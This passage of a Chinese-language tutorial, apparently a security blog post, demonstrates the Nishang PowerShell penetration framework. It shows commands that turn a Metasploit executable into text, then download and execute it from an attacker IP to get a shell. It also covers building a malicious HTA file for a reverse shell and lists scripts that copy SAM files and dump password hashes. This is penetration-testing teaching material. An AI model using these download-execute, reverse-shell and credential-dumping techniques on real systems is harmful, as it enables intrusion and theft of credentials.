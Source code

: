 使用实例：

第一步：首先我们需要使用Nishang中的exetotext.ps1脚本将可执行文件更改为文本文件。

```
PS C:Usersroot&gt; ExetoText c:powershellmsf.exe c:powershellmsf.txt
Converted file written to c:powershellmsf.txt
```

第二步：使用Download_Execute下载执行文本文件

```
PS C:Usersroot&gt; Download_Execute http://192.168.110.128/msf.txt
```

第三步：观察Metasploit。可以发现成功获得Shell

[![](https://p1.ssl.qhimg.com/t017f672f67d857d1f9.png)](https://p1.ssl.qhimg.com/t017f672f67d857d1f9.png)

<br>

**客户端**

Nishang中还有生成各种危害文件的脚本，它们可以生成各种感染的文件，如HTA、Word，来执行powershell脚本。可以神不知鬼不觉的发动攻击，由于各个脚本用法相同，这里以生成受感染的HTA为例子。

**Out-HTA**

功能：创建受感染的HTA文件，可以执行PowerShell命令和脚本。

用法实例：

第一步：我们先来创建受感染的HTA文件。在下图中我们可以发现成功生成了一个受感染的HTA文件hello.hta

[![](https://p5.ssl.qhimg.com/t01138a731add85007b.png)](https://p5.ssl.qhimg.com/t01138a731add85007b.png)

第二步：先使用nc来监听端口，然后运行受感染的HTA文件，可以发现成功反弹Shell

[![](https://p2.ssl.qhimg.com/t010f6aec8b49e488bd.png)](https://p2.ssl.qhimg.com/t010f6aec8b49e488bd.png)

<br>

**其他**

Nishang中还有很多经典实用的渗透脚本，不可能一一为大家讲解，这里挑选几种常用的为大家来介绍一下。

项目地址：[https://github.com/samratashok/nishang](https://github.com/samratashok/nishang)

**信息收集**

1. Check-VM 这是Nishang中检测目标机是否为虚拟机的脚本。

[![](https://p2.ssl.qhimg.com/t01425e58ba8f0cac6c.png)](https://p2.ssl.qhimg.com/t01425e58ba8f0cac6c.png)

2. Copy-VSS 使用卷影拷贝服务来复制SAM文件。

3. Get-Information 从目标机上获取有价值信息的脚本

4. Get-PassHashes 从目标机上获取Hash密码的脚本。
